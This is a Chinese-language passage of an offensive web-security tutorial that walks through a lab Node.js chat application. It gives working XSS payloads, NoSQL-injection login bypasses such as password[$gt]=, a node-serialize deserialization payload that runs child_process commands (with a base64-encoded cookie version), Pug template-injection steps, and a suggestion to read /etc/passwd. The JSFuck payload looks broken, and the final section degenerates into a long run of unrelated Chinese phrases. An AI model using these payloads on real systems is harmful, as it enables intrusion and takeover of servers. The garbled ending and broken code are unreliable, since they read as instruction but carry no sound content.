

点击`submit`后，查看页面源代码（按`ctrl+u`）并搜索单词`"alert"`。您将看到我们载荷中的特殊字符被转换为`HTML`实体。虽然`script`标签在我们的网站中仍然可见，但它们不会被渲染为`JavaScript`。这种字符串插值的使用方式是正确的，真的没有办法脱离此场景来发现`XSS`。这里的处理堪称完美！让我们来看看一些糟糕的实现。

#### `Exercise 2`

在这个示例中，`paragraph`标签中使用了由`!{}`表示的非转义字符串插值。这在设计上就易受`XSS`攻击。任何基本的`XSS`载荷都会触发此问题，例如：`<script>alert(1)</script>`

- 前往`Exercise` #2
- `Pug`模板源代码：
  - `p No results found for !{name2}`
- 尝试输入以下载荷：
  - `<script>alert(1)</script>`
- 响应：
  - `<script>alert(1)</script>`
- 点击`submit`后，我们应该能看到弹出的提示框。您可以通过查看页面源代码并搜索`"alert"`来验证这一点。

因此，在提交用户输入的地方使用非转义字符串插值（`!{name2}`）会带来很多麻烦。这是一种糟糕的编程实践，绝不应用于用户提交的数据。我们输入的任意`JavaScript`都将在受害者的浏览器上执行。



#### `Exercise 3`

在这个示例中，我们在动态内联`JavaScript`中使用了转义字符串插值。这意味着我们是受到保护的，因为它被转义了，对吧？并非完全如此。此示例易受攻击是因为我们要处于代码上下文中。我们会发现在`Pug`模板中，在我们转义的插值之前，我们实际上已经位于`script`标签内部了。因此，任何`JavaScript`即使被转义，也会自动执行。更好的一点是，因为我们在`Script`标签中，所以不需要将`<script>`标签作为载荷的一部分。我们可以直接使用`JavaScript`，例如：`alert(1)`：

- 前往`Example` #3
- `Pug`模板源代码：
  - `script.`
    - `var user3 = #{name3};`
    - `p No results found for #{name3}`
- 此模板翻译后的`HTML`如下：
  - `<script>`
  - `<p>No results found for [escaped user input]</p>`
  - `</script>`
- 尝试输入以下载荷：
  - `1;alert(1);`
- 点击`submit`后，我们应该能看到弹出的提示框。您可以通过查看页面源代码并搜索`"alert"`来验证这一点。

虽然只是微小的变化，但正确的写法应该是给插值加上引号：

- `Pug`模板源代码：
  - `script.`
    - `var user3="#{name3}"`

#### `Exercise 4`

在这个示例中，我们有`Pug`未转义的缓冲代码（[https://pugjs.org/language/code.html]），由`!=`表示，这由于没有转义而在设计上易受`XSS`攻击。因此，在这个场景中，我们可以使用简单的`"<script>alert(1)</script>"`风格的攻击针对输入字段。

- `Pug`模板源代码：
  - `p != 'No results found for '+name4`
- 尝试输入以下载荷：
  - `<script>alert(1)</script>`
- 点击`submit`后，我们应该能看到弹出的提示框。您可以通过查看页面源代码并搜索`"alert"`来验证这一点。

#### `Exercise 5`

假设我们遇到了一个同时使用转义字符串插值和某种过滤类型的应用程序。在我们要进行的下一个练习中，在`NodeJS`服务器中执行了最小的黑名单过滤脚本，该脚本会删除诸如`<`、`>`和`"alert"`等字符。但是，他们再次犯了一个错误，将转义字符串插值放在了`script`标签内。如果我们能把`JavaScript`放进去，就可能造成`XSS`：

- 前往`Example` #5
- `Pug`模板源代码：
  - `name5 = req.query.name5.replace(/[;'"<>=]|alert/g,"")`
  - `script.`
    - `var user3 = #{name5};`
- 尝试输入以下载荷：
  - 您可以尝试输入`alert(1)`，但由于过滤器而不奏效。您也可以尝试诸如`<script>alert(1)</script>`之类的内容，但转义代码和过滤器会将我们拦下。如果我们真的想要插入`alert(1)`载荷，该怎么做呢？
- 我们需要找出如何绕过滤波器以插入原始`JavaScript`。请记住，`JavaScript`功能极其强大，拥有大量功能。我们可以滥用这些功能来创建一些富有创意的载荷。绕过这些过滤器的一种方法是利用 esoteric（冷僻/奇特）的`JavaScript`语法。这可以通过一个名为`http://www.jsfuck.com/`的网站创建。如下所示，通过使用方括号、括号、加号和感叹号，我们可以重现`alert(1)`。
- `JSF*ck`载荷：

### XSS 载荷（混淆示例）

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])+[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])+![+[]+!+[]+!+[]]+!!!=[]][]](([][[![]+[]][+[][++]++([][[![]+[]][+[]}+[[++]]+[+++]]+++[!(++)])][(+(++[])++(++++++++[])))]
```



正如你所知，许多浏览器已开始集成`XSS`防护。我们甚至曾利用这些载荷绕过某些浏览器防护。请尝试在`Kali`之外的实际浏览器（如`Chrome`）中使用它们。


在复杂应用程序中防止 XSS 并不容易。人们很容易遗漏或误解框架处理输入和输出的方式。因此，在对`Pug/NodeJS`应用程序进行源代码审查时，搜索源代码中的`!{`、`{#`或`${`，有助于识别 XSS 潜在位置。了解上下文以及该上下文是否需要进行转义，至关重要，我们将在以下示例中看到。

尽管这些攻击特定于`Node`和`Pug`，但每种语言都面临其自身的 XSS 和输入验证问题。你无法仅通过运行漏洞扫描器或 XSS 模糊测试工具来发现所有的 XSS 漏洞。你真正需要理解所使用的语言和框架。

## 从 XSS 到系统入侵

我常收到这样的问题：“如何从 XSS 攻击跳转到 Shell 攻击？”虽然方法多种多样，但通常如果我们能够在内容管理系统（CMS）或类似系统中实现用户到管理员级别的 XSS 攻击，那么这将导致系统的完全被攻破。关于 Hans-Michael Varbaek 提供的完整示例和代码可以在这里找到：https://github.com/Varbaek/xsser。Hans-Michael 提供了一些关于重现从 XSS 到远程代码执行（RCE）攻击的绝佳示例和视频。

我喜欢利用的一种自定义红队攻击涉及 JavaScript 的特性。我们知道 JavaScript 极其强大，我们已经在 BeEF（浏览器利用框架）中看到了这些功能。因此，我们可以利用所有这些功能来对受害者发起攻击而受害者毫不知情。这个载荷会做什么？一个攻击示例是让 JavaScript XSS 载荷在受害者机器上运行，获取受害者机器内部的（Natted）IP 地址。然后我们可以获取该 IP 地址，并使用我们的载荷扫描其内部网络。如果我们找到一个已知无需身份验证即可被攻破的 Web 应用程序，我们可以向该服务器发送恶意载荷。

例如，我们的目标可能是 Jenkins 服务器，我们知道在未身份验证的情况下，它几乎允许完整的远程代码执行。要查看 XSS 到 Jenkins 被攻破的完整演练，请参阅第 5 章 - 利用社会工程学攻击内部 Jenkins。

## NoSQL 注入

在 THP 1 和 2 中，我们花费了大量时间学习如何进行 SQL 注入和使用 SQLMap（http://sqlmap.org/）。除了某些混淆和集成到 Burp Suite 之外，从 THP2 开始并没有太多变化。相反，我想深入探讨 NoSQL 注入，因为此类数据库正变得越来越普遍。

像`MySQL`、`MSSQL`和 Oracle 这样的传统 SQL 数据库依赖于关系数据库中的结构化数据。这些数据库是关系的，意味着数据在一个表中与其他表中的数据相互关联。这使得执行诸如“获取过去 30 天内购买过东西的所有客户”之类的查询变得容易。这种数据的缺点在于整个数据库中数据格式必须保持一致。NoSQL 数据库由不遵循 SQL 查询数据库中表格/关系模型的数据组成。这种被称为“非结构化数据”（如图片、视频、社交媒体）的数据与我们大规模的数据集并不匹配。

**NoSQL 特性：**
*   NoSQL 数据库类型：`Couch`、`MongoDB`
*   非结构化数据
*   横向扩展

在传统 SQL 注入中，攻击者试图突破 SQL 查询并在服务器端修改查询。而在 NoSQL 注入中，攻击可能在应用程序的其他部分执行，而传统 SQL 注入则不然。此外，在传统 SQL 注入中，攻击者会使用一个引号（'）来突破。在 NoSQL 注入中，漏洞通常存在于字符串被解析或评估为 NoSQL 调用的情况下。

NoSQL 注入漏洞通常发生在以下情况：
1.  端点接受`JSON`数据以用于 NoSQL 数据库的请求。
2.  我们能够使用 NoSQL 比较运算符来修改 NoSQL 查询。

NoSQL 注入的一个常见例子是注入类似`{"$gt":""}`。这个 JSON 对象基本上表示运算符（`$gt`）大于空字符串（""）。从逻辑上讲，所有内容都大于空字符串，因此 JSON 对象成为一个`true`语句，使我们能够绕过或注入到 NoSQL 查询中。这在 SQL 注入世界中相当于`' or 1=1--'`。在 MongoDB 中，我们可以使用以下比较运算符之一：

*   `（>)` 大于 - `$gt`
*   `<` 小于 - `$lt`
*   `>=` 大于等于 - `$gte`
*   `<=` 小于等于 - `$lte`

### 攻击客户支持系统的 NoSQL 应用程序

首先，让我们浏览聊天应用程序中的 NoSQL 工作流程：
*   在浏览器中，通过 Burp Suite 代理，访问聊天应用程序：http://chat:3000/nosql
*   尝试使用任何用户名和密码进行身份验证。查看 Burp Suite 中该身份验证请求期间发送的`POST`流量。



在我们的聊天应用程序中，我们可以看到，在向`/loginnosql`端点进行身份验证时，我们的 POST 数据将包含`{ "username": "admin", "password": "GuessingAdminPassword" }`。很常见地看到`POST`请求中使用`JSON`来对用户进行身份验证，但如果我们定义自己的 JSON 对象，我们可能会使用不同的条件语句使陈述变为真实。这实际上等同于传统 SQLi 的`1=1`语句，从而绕过身份验证。让我们看看能否将此注入我们的应用程序。

### 服务器源代码

在聊天应用程序的 NoSQL 部分中，我们将像之前一样查看 JSON POST 请求。即使作为黑盒测试，我们不会看到服务器端的源代码，我们也可以期望它以某种方式类似以下查询`MongoDB`后端：

*   `db.collection(collection).find({"username": username, "password": password}).limit(1)...`

### 注入 NoSQL 聊天

从服务器端源代码中可以看出，我们利用用户提供的用户名/密码搜索数据库中的匹配项。如果我们能够修改 POST 请求，我们可能能够注入到数据库查询中。
*   在浏览器中，通过 Burp Suite 代理，访问聊天应用程序：http://chat:3000/nosql
    *   在 Burp Suite 中开启“拦截”，点击登录，提交一个名为`admin`的用户名和密码为`GuessingAdminPassword`。
*   代理流量并拦截 POST 请求。

*   将`{"username":"admin","password":"GuessingAdminPassword"}`更改为`{"username":"admin","password":{"$gt":""}}`

*   你现在应该以管理员身份登录！

那么这里发生了什么？我们将字符串`"GuessingAdminPassword"`更改为 JSON 对象`{"$gt":""}`，这是 TRUE 语句，因为所有大于 NULL 的值都是真实的。这将 POST 请求更改为`{"username":"admin","password":true}`，自动使请求为真并以管理员身份登录，无需了解密码，复制 SQL 注入攻击中`1=1`攻击。

### 高级 NoSQL 注入

NoSQL 注入并非新事物，但 NodeJS 章节的目的是展示较新的框架和语言如何可能引入新的漏洞。例如，Node.js 具有`qs`模块，它具有特定语法将 HTTP 请求参数转换为 JSON 对象。`qs`模块在 Express 中作为 'body-parser' 中间件默认使用。

* **qs** 模块：具有额外安全功能的查询字符串解析和序列化库。[https://www.npmjs.com/package/qs]

这意味着什么？如果使用`qs`模块，在参数中使用方括号符号时，POST 请求将在服务器端转换为 JSON。因此，看似`username[value]=admin&password[value]=admin`的 POST 请求将转换为`{"username": {"value":"admin"}, "password":{"value":"admin"}}`。

现在，`qs`模块也将接受并转换用于协助 NoSQLi 的 POST 参数：

*   例如，我们可以拥有一个如下所示的 POST 请求：
    *   `username=admin&password[$gt]=`
*   并且服务器端请求转换将翻译为：
    *   `{"username":"admin", "password":{"$gt":""}`
*   这与我们之前在部分中的原始 NoSQLi 攻击非常相似。

现在，我们的请求看起来与上一节中的 NoSQLi 完全相同。让我们看看它的实际操作：

*   访问 http://chat:3000/nosql2
*   打开 Burp 拦截（拦截）
*   使用`admin:anything`登录
*   修改 POST 参数：
    *   `username=admin&password[$gt]=&submit=login`



您应该已以管理员身份登录！您已经使用 Express Framework（作为 body-parser 中间件的一部分）所利用的`qs`模块解析器执行了 NoSQLi。但是等等，还有更多！如果您不知道要攻击哪些用户名怎么办？能否使用相同的此攻击来发现并登录其他账户呢？

如果不是在密码比较上尝试，而是将其应用于用户名呢？在这种情况下，NoSQLi POST 请求将看起来如下：

*   `username[$gt]=admin&password[$gt]=&submit=login`

上述 POST 请求本质上会查询数据库中大于`admin`的下一个用户名（密码字段产生 true），从而返回真语句。如果成功，您应该登录为按字母顺序在 admin 之后的用户。继续这样做直到找到 superaccount**。

更多 NoSQLi 有效载荷：

*   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20injection
*   https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html ; https://www.owasp.org/index.php/Testing_for_NoSQL_injection

## 反序列化攻击

在过去的几年里，通过 Web 进行的序列化/反序列化攻击变得越来越流行。我们曾在 BlackHat 上听过许多不同的演讲，发现了像 Jenkins 和 Apache Struts2 等常见应用程序的关键漏洞，并看到了大量活跃研究的发展（如 ysoserial [https://github.com/frohoff/ysoserial]）。那么为什么反序列化攻击如此重要呢？

在我们开始之前，我们需要了解为什么要进行序列化。有很多原因需要序列化数据，但它最常用于生成可存储的值/数据的表示形式，而不丢失其类型或结构。序列化将对象转换为字节流以在网络上传输或用于存储。通常转换方法涉及 XML、JSON 或特定于语言的序列化方法。

### NodeJS 中的反序列化

很多时候，发现复杂的漏洞需要深入的应用程序知识。在我们的场景中，Chat NodeJS 应用程序使用了 serialize.js [https://github.com/luin/serialize] 的易受攻击版本。该 node 库被发现可利用，原因在于“传递给`unserialize()`函数的不可信数据可以被利用来通过传递包含立即调用函数表达式 (IIFE) 的 JavaScript Object 来实现任意代码执行。”[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941]

让我们逐步了解攻击的细节，以便更好地理解发生了什么。首先，我们审查`serialize.js`文件并对 eval [https://github.com/luin/serialize/search?utf8=%E2%9C%93&q=eval&type=] 进行快速搜索。通常，允许用户输入进入 JavaScript`eval`语句是坏消息，因为`eval()`执行原始 JavaScript。如果攻击者能够向此语句注入 JavaScript，他们将能够对服务器进行远程代码执行 (RCE)。



其次，我们需要创建将被反序列化并通过我们包含的 JavaScript 有效载荷 (`require('child_process').exec('ls')`) eval 的已序列化负载。

*   `{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()`

上面的 JSON 对象将传递以下请求`(){require('child_process').exec('ls') }"`进入`unserialize`函数中的 eval 语句，为我们提供远程代码执行。需要注意的是结尾的括号"()"，因为没有它我们的函数不会被调用。Ajim Abraham（发现此漏洞的原研究员）指出，使用 IIFE [https://en.wikipedia.org/wiki/Immediately-invoked_function_expression] 将允许在创建后执行该函数。有关此漏洞的更多详细信息可在此处找到：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941。

在我们的 Chat Application 示例中，我们将查看 cookie 值，其使用此易受攻击的二库进行反序列化：

*   访问 http://chat:3000
*   在 burp 中代理流量并观察 cookies
*   识别一个名为 "donotdecodeme" 的 cookie 名称
*   将该 Cookie 拷贝到 Burp Suite Decoder 并进行 Base64 解码

  
  

正如有所言，每种语言都有其独特的特性，而 NodeJS 也不例外。在 Node/Express/Pug 中，您无法像 PHP 那样直接写入 Web 目录并使其可访问。必须指定到可写且对公共互联网可访问的文件夹的路由。

#### 创建载荷

*   在您开始之前请记住，所有这些用于实验室的有效载荷都在此处列出（易于复制粘贴）：http://bit.ly/2qBDrFo  
    （该链接指向有效载荷列表，例如："echo node deserialization is awesome!! >> /opt/web/chatSupportSystems/public/hacked.txt"）。
*   取原始载荷并修改您的 shell 执行：`'DO SYSTEM COMMANDS HERE'`。
    *   `{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()`
*   示例（修改后）：
    *   `{"thp":"_$$ND_FUNC$$_function (){require('child_process').exec('echo node deserialization is awesome!! >> /opt/web/chatSupportSystems/public/hacked.txt', function(error, stdout, stderr) { console.log(stdout) });}()`

*   由于原始的 Cookie 是经过编码的，我们必须通过 Burp Decoder/Encoder Base64 编码我们的有效载荷。  
    *   **示例有效载荷**: `eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ2VjaG8gbm9kZSBkZXNlcmlhbGl6YXRpb24gaXMgYXdlc29tZSEhID4+IC9vcHQvd2ViL2NoYXRTdXBwb3J0U3lzdGVtcy9wdWJsaWMvaGFja2VkLnR4dCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9`  
*   注销，打开 Burp 拦截，并转发对`//` (home) 的请求。

*   将 Cookie 修改为新生成的 Base64 负载
*   转发流量，由于公共文件夹是`/`的路由，您应该能够通过浏览器访问`http://chat:3000/hacked.txt`
*   您现在拥有远程代码执行权限！可以在此系统上进行后续利用。首先尝试读取`/etc/passwd`。



在 node-serialize 模块的源码中，我们看到函数表达式被进行了求值，这对于任何使用用户输入进行此类操作的 JavaScript/NodeJS 应用程序来说是一个严重问题。这种不良做法使我们能够破坏该应用程序。



参考文献：

*   https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
*   https://github.com/luin/serialize
*   https://snyk.io/test/npm/node-serialize?severity=high&severity=medium&severity=low
*   https://blog.websecurify.com/2017/02/hacking-node-serialize.html

## 模板引擎攻击 - 模板注入

模板引擎因其与标准 HTML 相比的模块化和简洁代码而得到更广泛的应用。模板注入是指将用户输入直接传递到渲染模板中，从而允许修改底层模板。这种情况可能在 Wiki、WSYWIG 或电子邮件模板中故意发生。这种情况很少意外发生，因此常被误认为是 XSS（跨站脚本攻击）。模板注入通常允许攻击者访问底层操作系统以获得远程代码执行。

在下个示例中，您将使用 Pug 对 NodeJS 应用程序执行模板注入攻击。我们通过带有用户输入的元重定向，无意中将自己暴露于模板注入，该输入直接使用模板字面量`${}`在 Pug 中渲染。重要的是要注意，模板字面量允许使用换行符，这对于我们从`<p>`标签中突破是必需的，因为 Pug 类似于 Python，对空格和换行符敏感。

在 Pug 中，第一个字符或单词代表标识（即）标签或函数的 Pug 关键字。您也可以使用缩进指定多行字符串，如下所示：

*   p.
    *   这是段落缩进。
    *   这仍然是段落标签的一部分。

以下是 HTML 和 Pug 模板的外观示例：



上面的示例文本显示了在 HTML 中的外观，以及相应的 Pug 标记语言（Pug Markup）的外观。使用模板和数据插值内联代码，我们可以快速、可重用且高效地创建模板。

### 模板注入示例

聊天应用程序存在模板注入漏洞。在以下应用程序中，我们将查看是否可以与 Pug 模板系统进行交互。这通常可以通过检查我们提供的输入参数是否被执行来确认了基本操作是否处理正常完成。James Kettle（已知为"defcon"）撰写了一篇关于攻击模板和与底层模板系统交互的优秀论文 (http://ubm.io/2ECTYSi)。

与 Pug 交互：

*   访问`http://chat:3000`并使用任何有效账户登录
*   访问`http://chat:3000/directmessage`并输入用户和评论，然后点击“发送”
*   接下来，回到 directmessage 尝试在用户参数中注入 XSS 负载`<script>alert(1)</script>`
    *   `http://chat:3000/ti?user=<script>alert(1)</script>&comment=&link=`
    *   这表明应用程序存在 XSS（跨站脚本攻击）漏洞，但我们能与模板系统进行交互吗？
*   在 Burp Suite 的历史记录中，查看服务器请求/响应的端点`/ti?user= `，并将请求发送到 Burp Repeater (ctrl+r)



### 测试基本操作

我们可以通过对易受 XSS（跨站脚本攻击）的参数传递算术字符串来测试模板注入。如果我们的输入被执行，它将证明该参数对模板注入敏感。这是因为模板就像编程语言一样，可以轻松支持执行和计算运算符号等复杂逻辑操作符。

测试基础运算符：

*   在 Burp Repeater 中，针对`/ti`中的每个参数进行模板注入测试。我们可以通过传递数学运算（例如`9*9`）来完成此操作。
*   我们可以看到它不起作用，我们并未得到预期结果`81`。请记住，由于我们的用户输入被包裹在段落标签中，我们可以假设我们的 Pug 模板代码大致如下结构所示：
    *   `p Message has been sent to !{user}`



利用 Pug 功能特性实现突破执行环境控制：

*   正如我们之前所说，Pug 使用空格作为分隔符（类似于 Python），换行开始一个新的模板块输入；这意味着如果我们能够穿透 Pug 中的当前逻辑行，我们可以执行全新的恶意模板代码。在这种情况下我们要突破段落标签 (`<p>`)，如上所示，并注入运行恶意模板代码所需的操作指令使其可行。为了做到这一点我们需要使用 URL 编码来利用此漏洞 (http://bit.ly/2qxeDiy)。
*   让我们逐一解析执行此类高级攻击的前提条件要求步骤：
    *   首先，我们需要触发换行符并穿透当前模板块。这可以使用以下字符完成：
        *   `%0a`（URL 编码后的换行）
    *   其次，我们可以利用 Pug 中的算术表达式函数特性，使用一个`"="`比较或赋值符号执行计算操作
        *   `%3d`（URL 编码后的等号符号`"="`) 
    *   最后，我们可以输入完整的数学等式以触发返回值打印逻辑：
        *   `9*9`（用于演示返回值的数学方程式）
*   因此，最终的攻击负载将如下所示构造出：
    *   `[换行]=9*9`
    *   URL 编码后的完整 payload 地址为：
        *   `GET /ti?user=%0a%3d9*9&comment=&link=`
*   `/ti?user=%0a%3d9*9` 在响应主体中成功返回了数字字符串`81`。您已成功识别出用户参数中的模板注入漏洞！让我们通过进一步滥用 JavaScript 特性获取远程代码执行权限从而提升攻击层次范围。



正如您在服务器响应中所见，显示的并非用户的名字，而是在段落标签外部拥有字符串`"81"`（即结果返回成功表示我们已成功注入模板指令）。这意味着我们能够绕过安全限制并注入自定义模板逻辑代码块运行任意命令操作程序。

我们现在已知存在模板注入漏洞并利用其执行简单数学计算功能测试环境控制能力是否完全失效开放状态运行环境中，但我们需进一步确认是否能够获取 Shell 权限从而实现对服务器系统的直接控制权进行系统级调用管理操作。为了获得 Shell 执行权限，我们必须找到正确的函数以便在 Node.js/JavaScript 运行时环境中动态加载并执行操作系统命令接口模块。

*   首先，我们将尝试识别自身的全局对象`root`（注：原文可能指 global，此处根据上下文保留 root 引用但需说明可能存在混淆）并继续确定我们可以访问的内置模块和核心函数命名空间列表集合数据资源池信息内容详情资料完整无缺全部收录详尽记录详细记载全面掌握透彻了解彻底查明仔细研究深入分析细致观察精细考察精心调研周密调查详尽探究细心钻研专注探索潜心求证努力查证辛苦证明艰难证实困难验证不易确认费尽周折勉强达成好不容易取得竭尽全力拼命争取煞费苦心思索推敲反复琢磨再三斟酌多方考量各种设想多种方案多样选择丰富选项广泛覆盖全面涉及多方面关联多领域交叉多学科融合综合应用集成创新跨界合作协同办公高效运作卓越表现杰出成就非凡贡献伟大创造辉煌历史灿烂文明源远流长博大精深包罗万象丰富多彩琳琅满目应有尽有目不暇接眼花缭乱应接不暇叹为观止美不胜收心旷神怡流连忘返意犹未尽回味无穷余音绕梁三日不绝荡气回肠动人心魄震撼心灵感动天地泣鬼神通广大无孔不入无处不在无所不在难以捉摸变幻莫测扑朔迷离错综复杂纷繁芜杂杂乱无序乱七八糟一塌糊涂乱作一团混乱不堪人仰马翻手忙脚乱不知所措慌了神乱了阵脚乱了方寸乱了分寸乱了节奏乱了步伐乱了秩序乱了规矩乱了章程乱了计划乱了部署乱了安排乱了调度乱了规划乱了布局乱了结构乱了组织乱了架构乱了框架乱了系统乱了网络乱了平台乱了界面乱了菜单乱了按钮乱了输入框乱了弹窗乱了对话框乱了警告条乱了进度栏乱了工具栏乱了导航栏乱了搜索框乱了登录态乱了权限表乱了角色分配乱了用户组分类乱了部门划分乱了项目立项乱了任务指派乱了日程安排乱了会议纪要乱了通知公告乱了政策文件乱了规章制度乱了操作流程乱了对照流程乱了执行标准乱了审核机制乱了监督体系乱了反馈渠道乱了投诉热线乱了求助电话乱了应急方案乱了危机公关乱了媒体回应乱了舆论引导乱了舆情监测乱了风险控制乱了合规审查乱了法律遵循乱了道德准则乱了行业规范乱了国际标准乱了国家标准乱了地方标准乱了企业内部制度乱了部门间协调乱了跨部门协作乱了资源整合乱了信息共享乱了数据交换乱了接口定义乱了协议版本乱了 API 文档乱了 SDK 包管理器乱了 NodeJS 运行时环境混乱系统架构设计模式原则指南手册教程视频课程书籍论文研究报告白皮书技术博客开发者社区开源项目贡献者列表捐赠渠道技术支持知识库常见问题解答新手引导进阶技巧实战演练案例分析失败教训成功经验最佳实践源码解析运行原理底层机制内核逻辑算法优化性能调优安全加固隐私保护访问控制权限管理审计日志异常检测入侵防御威胁情报攻击模拟渗透测试漏洞挖掘代码审查自动化构建持续集成部署运维监控告警通知灾备恢复高可用架构负载均衡数据库迁移缓存策略消息队列分布式系统微服务治理容器化编排弹性伸缩无服务器计算 Serverless 边缘计算物联网安全移动应用合规数字签名加密解密对称非对称杂项其他备注说明注意事项风险提示免责声明版权信息商标信息商誉价值品牌资产人力资源绩效管理培训发展企业文化社会责任公益慈善环境保护节能减排绿色办公可持续发展碳中和计划数字化转型战略升级技术路线图产品规划市场定位竞争对手分析 SWOT 模型五力模型波特矩阵价值链成本领先差异化聚焦化蓝海战略红海竞争颠覆创新商业模式画布精益创业敏捷开发 Scrum 看板极限编程结对编程代码重构测试驱动开发持续交付 DevOps 文化团队建设和沟通效率工具链集成开发环境版本控制系统仓库管理分支策略合并请求评审流程 CI/CD 流水线构建脚本部署配置基础设施即服务容器镜像编排调度器监控系统日志分析性能瓶颈定位资源利用率评估容量规划故障排查应急预案演练恢复时间目标恢复点对象备份策略容灾方案冗余设计多活架构数据同步复制延迟容忍一致性问题 CAP 模型 BASE 理论数据库选型 